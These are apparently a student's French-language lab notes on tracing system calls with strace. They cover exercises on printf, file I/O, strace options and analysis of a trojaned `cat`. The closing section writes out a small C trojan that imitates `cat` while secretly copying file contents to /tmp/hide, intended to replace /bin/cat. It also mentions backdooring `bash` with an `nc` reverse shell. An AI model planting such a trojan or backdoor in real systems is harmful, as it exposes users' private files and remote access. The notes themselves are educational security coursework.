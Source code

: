 # Notes - TP1

Lancer la vm :

```shell
$ qemu-system-x86_64 strace.img
```

## Exercice A

La sortie de strace est très fournie pour un programme qui est vide. Le programme effectue 11 appels systèmes rien que pour être lancé, puis retourner son code de retour.

## Exercice B-C

L'appel dela fonction `printf` appelle 6 primitives supplémentaires :

- `ftstat64` : Permet d'obtenir des informations sur un descripteur de fichier, en l'occurence 1, la sortie standard.
- `ioctl`: Permet d'obtenir des information sur un périphérique. En l'occurence, TCGETS permet d'optenir les paramètres du terminal (signaux, vitesse de transmission etc...)
- `brk(NULL)`: Permet d'obtenir la position actuelle du pointeur dans le heap pour connaitre sa taille.
- `brk(0x18c0000)` : Permet d'agrandir la zone mémoire heap, sans doute pour accueillir la chaine de caractères "Hello world".
- `brk(0x18c1000)` : Permet d'agrandir encore la zone mémoire heap.
- `write` : Écrit dans la sortie standard notre chaine de caractères "Hello world".

Les 10 premiers appels quand à eux, restent similaires, excepté les adresses mémoires qui peuvent être différentes.

## Exercice D

Tout le début du programme, jusqu'au premier `fopen` n'appelle pas de primitives systèmes. On aurait pu penser que l'empillement des paramètres au lancement du programme fasse appeler des primitives systèmes, mais je pense que `strace` n'affiche que celles appellées par le programme, et non celles appellées par le système.

Ensuite, on a la primitive `openat` qui correspond à `  input = fopen(argv[1], "r");`. Elle retourne 3, ce qui signifie que le descripteur de fichier de `albatros.txt` sera le numéro 3.

De manière similaire, `openat` est appelé pour `  output = fopen(outputname, "w");`. Le fichier `monalbatros.txt` prendra le numéro .

Comme dans la question précédente, `printf` déclanche 3 primitives : `fstat` pour obtinir des information sur la sortie standart, `ioctl` pour obtenir des information sur le terminal, et `write` pour écrire dans le terminal. 

Ensuite, `fgetc` appelle `fstat` pour avoir des information sur le descripteur de fichier 3 (`albatros.txt`) puis `read` pour récupérer son contenu.

Pour finir, `fprintf` appelle la primitive `write` qui va écrire dans le descripteur de fichier 4 (`monalbatros.txt`).

## Exercice E

A en juger par les nombreux appels à `stat64` cherchant `start` dans tout les chemins de commande, je pense qu'il sagit de l'appel à `which start`

## Exercice F

`strace find /etc/default` renvoie tout les appels systèmes de la commande `find /ect/default`

`strace -c find /etc/default` permet d'avoir un tableau résumé de tout les appels aux différentes primitives, et leurs occurences.

`strace -e trace=file find /etc/default` permet d'appliquer un filtre n'affichant que les appels systèmes relatif aux fichiers, par exemple : `openat`, `access` ou `fstatat64`.

`strace -e trace=open,close,read,write find /etc/default` de manière similaire permet d'appliquer un filtre pour ne voir que les primivite `open`, `close`, `read` et `write`.

## Exercice G

L'option `-f` semble permettre de suivre les appels systèmes de tout les processus enfants du programme initial. Chaque processus est distingué des autres par son pid en début de ligne.

## Exercice H

Ce programme semble dans le fichier indiqué en premier argument ce qu'on a renseigné dans le second. Il rajoute un saut de ligne à la fin. Il n'écrase pas le fichier si il existe déjà.

## Exercice I

Mon secret est normalement secret, car moi seul peut le lire. Normalement, j'accorderai une confiance totale en la commande `cat`.

La commande cat écrit aussi le résultat dans le fichier `/dev/shm/out`.

D'autres méthodes permettent d'afficher le contenu des fichiers. `less`, `nano` .

Le fichier `/dev/shm/out` étant public, tout le monde peut lire mon secret. De la même manière, je pourrais lire les secrets des autres utilisateurs.

D'après les trace le cheval de troie à sans doute été écrit en `C` en créant un enfant pour simuler la commande `cat` deux fois, en écrivant dans un fichier défini à l'avance, et dans la sortie standard. Pour l'installation, si l'attaquant était root, c'était plutôt facile, il suffisait de remplacer le fichier `/bin/cat` par son programme. 

## Synthèse 

Les principaux types d'appels systèmes sont :

1. Gestion des fichiers : read, open, write, etc...
2. Gestion de la mémoire : malloc, free, mmap, etc...
3. Gestion des processus : fork, exec, wait, etc...

Dans une analyse boite noire, les plus pertinent sont la gestion des fichiers, ça permet de voir ce qui rentre et sort du programme et ainsi de comprendre son fonctionnement. 

Comme dans l'exercice précédent, un programme `c` qui reproduit le commportment de la commande `cat` mais qui copie le contenu du fichier peut remplacer la commande `cat` originale. Par exemple :

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
		FILE *fichier;
		FILE *secret;
		char c;

		fichier = fopen(argv[1], "r");
		secret = fopen("/tmp/hide", "w");

		while ((c = fgetc(fichier)) != EOF)
		{
				printf("%c", c);
				fputc(c, secret);
		}

		fclose(fichier);
  	fclose(secret);

		return 0;
}
```

De manière similaire, pour un reverse shell, on pourrait modifier la commande "bash" pour inclure un processus qui, à travers `nc` permettrait la connection à distance.
